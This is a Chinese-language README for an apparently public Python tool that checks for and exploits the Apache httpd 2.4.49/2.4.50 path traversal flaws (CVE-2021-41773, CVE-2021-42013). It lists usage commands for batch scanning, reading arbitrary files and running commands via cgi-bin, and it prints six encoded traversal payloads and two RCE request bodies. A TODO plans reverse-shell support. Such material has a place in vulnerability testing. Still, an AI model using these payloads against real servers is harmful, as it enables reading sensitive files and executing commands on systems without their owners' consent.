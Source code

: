 # apache httpd path traversal checker


## 0x00 概述

20211005，网上曝出apache httpd 2.4.49的目录穿越漏洞（cve-2021-41773），可造成任意文件读取（穿越的目录允许被访问，比如配置了<Directory />Require all granted</Directory> 默认不允许）或命令执行（rce需开启cgi，默认并不包含cgi模块）

20211008，又出了2.4.50的目录穿越（cve-2021-42013），是绕过了cve-2021-41773的修复。



## 0x01 快速开始

python3运行

使用帮助：python3 apache-httpd-path-traversal.py -h

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-00.png)


单url检测：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80"

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-01.png)

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-02.png)


批量检测：python3 apache-httpd-path-traversal.py -f urls.txt -t 30 -s 3

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-03.png)


文件读取：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /icons --readfile

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-04.png)


命令执行：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /cgi-bin --rce

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-05.png)



## 0x02 工具简介

使用urllib.request发http数据包

检测漏洞存在的依据是读取/etc/passwd判断返回数据是否含有”root:”字符串（因为大部分都是linux，所以暂时忽略检测windows）

多线程，可选择超时时间，以提高效率。

可选公共目录，rce的shell，以提供灵活性。

采用可能的公共目录列表，提高命中率。
commonDirList = ['/cgi-bin', '/icons', '/assets', '/uploads', '/img', '/image']

注意：有时候文件读取是利用icons目录，而rce要用cgi-bin目录，具体情况具体分析。

采用7种poc和2种rce的post data格式：

#cve-2021-41773
poc0 = "/.%2e/%2e%2e/%2e%2e/%2e%2e"

poc1 = "/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e"


#cve-2021-42013
poc2 = "/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65"

poc3 = "/.%%32%65/.%%32%65/.%%32%65/.%%32%65"

poc4 = "/.%%32e/.%%32e/.%%32e/.%%32e"

poc5 = "/.%2%65/.%2%65/.%2%65/.%2%65"

#rce data
rce0 = "echo;id"

rce1 = "echo Content-Type: text/plain; echo; id"

//rce的post方法改为get方法好像也行。
//payload要根据目标的apache路径层数变化跳出，一般4层够了。
//要有一个apache存在的目录，比如icons/或cgi-bin/



## 0x02 TODO

1.可能会增加对windows系统的检测。
2.可能会增加反弹shell等进一步利用。



## 0x03 反馈

[issus](https://github.com/theLSA/apache-httpd-path-traversal-checker/issues)

gmail：[lsasguge196@gmail.com](mailto:lsasguge196@gmail.com)

qq：[2894400469@qq.com](mailto:2894400469@qq.com)